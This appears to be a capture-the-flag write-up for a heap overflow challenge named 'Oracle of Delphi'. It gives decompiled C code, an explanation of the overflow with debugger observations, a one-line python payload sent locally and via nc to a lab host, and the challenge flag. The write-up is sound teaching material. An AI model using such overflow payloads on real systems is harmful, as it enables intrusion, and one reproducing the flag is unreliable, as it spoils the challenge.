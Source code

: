 # Getting the challenge

The zip file contains a Dockerfile with some files that describes the service. One of the extra files is a binary that is running with a flag.txt placeholder. This is enough to test everything locally. If your environment differs significantly from the docker image, you can extract the libc from it and use it locally.

Upon running the binary, it asks 2 questions.

![](screenshots/1.png)

# Checking the logic

Ghidra can recover the code ([delphi.c](workdir/delphi.c)) relatively well. 

```c
void FUN_00101341(void *param_1)
{
  size_t __n;
  long in_FS_OFFSET;
  char local_518 [1288];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  fgets(local_518,0x500,stdin);
  __n = strlen(local_518);
  memcpy(param_1,local_518,__n);
  // REDACTED
  return;
}

undefined8 FUN_001013bf(void)
{
  // REDACTED
  local_68 = (char *)malloc(0x10);
  local_60 = (char *)malloc(0x20);
  memset(local_60,0,0x20);
  getrandom(local_60,0x20,0);
  for (local_7c = 0; local_7c < 0x20; local_7c = local_7c + 1) {
    if ((local_60[local_7c] == '\0') || (local_60[local_7c] == '\n')) {
      local_60[local_7c] = '*';
    }
  }
  puts("Welcome to the Oracle of Delphi!");
  puts("Hic es forsit ut tuum futurum invenias.\n");
  puts(
      "I will think of something bright and shiny. If you manage to think of the same thing, I will predict your future."
      );
  puts("If not, shall the gods have mercy on your soul.\n");
  printf("What shall I think of (ie What\'s my favorite instrument)? ");
  FUN_00101341(local_68);
  printf("So you asked: ");
  puts(local_68);
  puts("Okay, now that\'s a good one. Let me think...");
  sleep(2);
  printf("Got it. Any clue what it is I had in mind? ");
  fgets(local_48,0x21,stdin);
  iVar1 = strncmp(local_48,local_60,0x20);
  if (iVar1 == 0) {
    puts("Woah... You got it. Interested in a job offer? We have some good java coffee.");
    local_78 = (char *)0x0;
    local_70 = 0;
    tVar2 = time((time_t *)0x0);
    srand((uint)tVar2);
    local_58 = fopen("flag.txt","r");
    if (local_58 == (FILE *)0x0) {
      puts("Error: flag.txt not found. Contact an admin.");
                    // WARNING: Subroutine does not return
      exit(1);
    }
    while (local_50 = getline(&local_78,&local_70,local_58), local_50 != -1) {
      printf("%s",local_78);
    }
    fclose(local_58);
    if (local_78 != (char *)0x0) {
      free(local_78);
    }
  }
  else {
    puts("Nope, that\'s not it. You\'re doomed.");
  }
  // REDACTED
}

```

FUN_00101341 is used to read some input to a large enough buffer, then it copies strlen(buffer) amount into it's parameter destination. 

FUN_001013bf is presumably the main function, it is allocating 2 buffers (size 0x10 and 0x20) with malloc and randomizing the latter with some filtering. The former is passed to the FUN_00101341 read function to hold our input. A third smaller local buffer is used to read some bytes in the second question, and this value is compared to the random one. Upon successfully guessing the random number, the flag is given out.

# The problem

The reader function is ignoring the destination buffer size and overflow can occur. This can overwrite the random part. 

Pwntools can be used to generate some cyclic strings to easily spot memory patterns.

![](screenshots/2.png)

The program can be stopped on [malloc](https://cplusplus.com/reference/cstdlib/malloc/) and [strncmp](https://cplusplus.com/reference/cstring/strncmp/) to check the memory layout. 

![](screenshots/5.png)

The strncmp parameters will be passed in `$rdi` (guess), `$rsi` (random), `$rdx` (length).

During a normal run, at `$rsi-32` the input string for the first question can be seen, and at `$rsi`, the randomly generated variable.

![](screenshots/3.png)

During a run with overflow, the random is overwritten with the given input.

![](screenshots/4.png)

# Exploit

The allocated heap structure is deterministic, always allocating the same size in the same order.

The first question can overwrite the random with known value and the second question can use the known value. There is no free at all, so corrupting the heap structure is not a problem.

```bash
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n")' | ./delphi
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n")' | nc 10.10.8.10 55364
```

![](screenshots/8.png)

# Flag

`cq23{l3t_mE_t3ll_UR_FUtuRe:ur_g0nna_be_4_gr3at_h4ck3r}`

# Pwndbg

Pwndbg can be used for better experience.

For example more verbose and easier to read outputs.

![](screenshots/6.png)

Heap information.

![](screenshots/7.png)